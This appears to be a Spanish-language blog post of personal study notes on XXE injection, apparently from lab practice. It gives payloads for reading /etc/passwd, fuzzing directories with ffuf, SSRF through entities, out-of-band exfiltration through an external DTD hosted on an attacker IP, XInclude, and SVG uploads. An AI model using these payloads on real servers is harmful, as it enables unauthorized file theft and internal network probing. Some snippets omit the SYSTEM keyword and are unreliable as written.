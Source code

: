 ```yaml
---
title: Apuntes XXE
image: https://www.appsecmonkey.com/static/images/xxe/cover.jpg
description: Apuntes XXE 
categories: [Tutorial]
tags: [hacking,notes]
---
```


## Inicio

> https://www.youtube.com/watch?v=UfILDa_qStQ
> 
> **hacktricks** https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html


Cuando hablamos de **XML External Entity** (**XXE**) **Injection**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.


![](/assets/img/Anexos/Pasted%20image%2020250214172109-1.png)


![](/assets/img/Anexos/Pasted%20image%2020250214172652-1.png)


Las entidades se pueden manipular con un **DTD (Document Type Definition)**:
```XML
<!DOCTYPE foo [ <!ENTITY mail "hola"> ]>
```
![](/assets/img/Anexos/Pasted%20image%2020250214172903-1.png)



Entonces aquí, podriamos probar entidades predefinidas para tensarla que hay unas cuantas:

![](/assets/img/Anexos/Pasted%20image%2020250214173318-1.png)


## Uso de wrappers para cambiar la presentación de los datos
La idea sigue siendo la misma, declarar una entidad, pero usando wrappers 

**Wrapper file**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

![](/assets/img/Anexos/Pasted%20image%2020250214174805-1.png)


### XXE FUZZ 
Si podemos usar el wrapper anterior, podemos fuzzear por directorios con `ffuf` de la siguiente manera: 
```shell
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -u http://192.168.1.44/magic.php  -d '<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/david/FUZZ"> ]> <details><email>&xxe;</email><password>das</password></details>' --fw 11
```


## XXE + SSRF
SSFR (Server-side Request Forgery) consinste en visualizar puertos, servicios , secciones de una máquina o servidor aprovechándonos de un campo o utilidad del mismo: 
![](/assets/img/Anexos/Pasted%20image%2020250215185340-1.png)

Entonces abusando de **XXE** podemos hacer algo parecido. Por ejemplo, con el **wrapper** `http://`:
```XML
<!DOCTYPE foo [ <!ENTITY xxe "http://192.168.1.10/etc/passwd"> ]>
```

![](/assets/img/Anexos/Pasted%20image%2020250215185536-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250215185638-1.png)

Entonces, a través de un XXE podemos acceder a recursos, en este caso, de nuestra máquina.

Entonces por ejemplo **podríamos llegar a ver/acceder a una máquina de la red de la máquina víctima.**

![](/assets/img/Anexos/Pasted%20image%2020250215190001-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250215190254-1.png)

Ahora a ir fuzeando 

![](/assets/img/Anexos/Pasted%20image%2020250215190613-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250215190743-1.png)



Ahora con esto, lo que vamos a hacer es en nuestra máquina crearnos una entidad
 

## XXE a ciegas out-of-band | No permite injectar entidades | DTD externo

```XML
<!DOCTYPE foo [ <!ENTITY % xxe "http://192.168.1.10/malicioud"> %xxe; ]>
```


Esta se produce cuando de primeras en la comprobación, no ves que se está aconteciendo un xxe:

![](/assets/img/Anexos/Pasted%20image%2020250215192138-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250215192216-1.png)


![](/assets/img/Anexos/image%2010%204.png)

![](/assets/img/Anexos/image%2011%204.png)

Entonces podemos probar un **XXE out-out-band** que seria llamar a una **url externa** para **exportar** la información/entidades para **verla de nuestro lado**


Cuando hay páginas que no permiten inyectar entidades, podemos llamar a la entidad en el propio DOCTYPE:

![](/assets/img/Anexos/Pasted%20image%2020250215192850-1.png)

Entonces, aqui pasamos el /etc/passwd a un servidor nuestro que tenemos montado en python 

![](/assets/img/Anexos/image%2014%204.png)

A veces no hace falto ni poner el wrapper

![](/assets/img/Anexos/image%2018%203.png)



## XXE a ciegas via error messages

![](/assets/img/Anexos/Pasted%2020250216095226-1.png)

Cuando veamos que hay errores en la respuesta, nos podemos aprovechar de ellos para cargar datos.

Esto se hace haciendo la petición a nuestro .dtd y que este carga un fichero que no existe, **forzando un error** el cual nos mostrará data. 

![](/assets/img/Anexos/Pasted%20image%2020250216095558-1.png)


![](/assets/img/Anexos/Pasted%20image%2020250216095631-1.png)


## Exploting XInclude to retrieve files 

Cuando no podamos modificar el DOCTYPE, porque no lo hay, en los elementos metemos este código


```XML
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```


![](/assets/img/Anexos/Pasted%20image%2020250216100809-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250216100749-1.png)


## XXE via Imagen 
```XML
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Esto sucede en webs en las que podemos subir una imagen 

![](/assets/img/Anexos/Pasted%20image%2020250216101200-1.png)

Metemos 

![](/assets/img/Anexos/Pasted%20image%2020250216101217-1.png)

Si no funciona de primeras, con Burpsuite lo unificamos todo: 

![](/assets/img/Anexos/Pasted%20image%2020250216101332-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250216101355.png)

Ahora al abrir la imagen, esta tendrá la data que le pedimos 

![](/assets/img/Anexos/Pasted%20image%2020250216101414.png)



